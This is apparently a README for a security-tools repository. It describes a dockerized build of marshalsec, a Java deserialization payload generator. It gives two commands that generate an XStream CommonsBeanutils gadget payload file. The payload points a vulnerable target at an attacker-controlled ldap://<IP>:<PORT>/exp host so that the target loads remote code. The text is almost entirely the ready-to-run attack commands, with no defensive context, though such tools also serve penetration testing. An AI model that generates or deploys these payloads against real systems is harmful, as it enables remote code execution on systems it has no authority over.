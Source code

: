 # sectools

## java
### deserialize
#### marshalsec
dockerized marshalsec
https://github.com/mbechler/marshalsec

usage:
```
docker run -ti ssst0n3/sectools:marshalsec marshalsec.XStream CommonsBeanutils ldap://<IP>:<PORT>/exp > payload.xml
```

same as

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream CommonsBeanutils ldap://<IP>:<PORT>/exp > payload.xml
```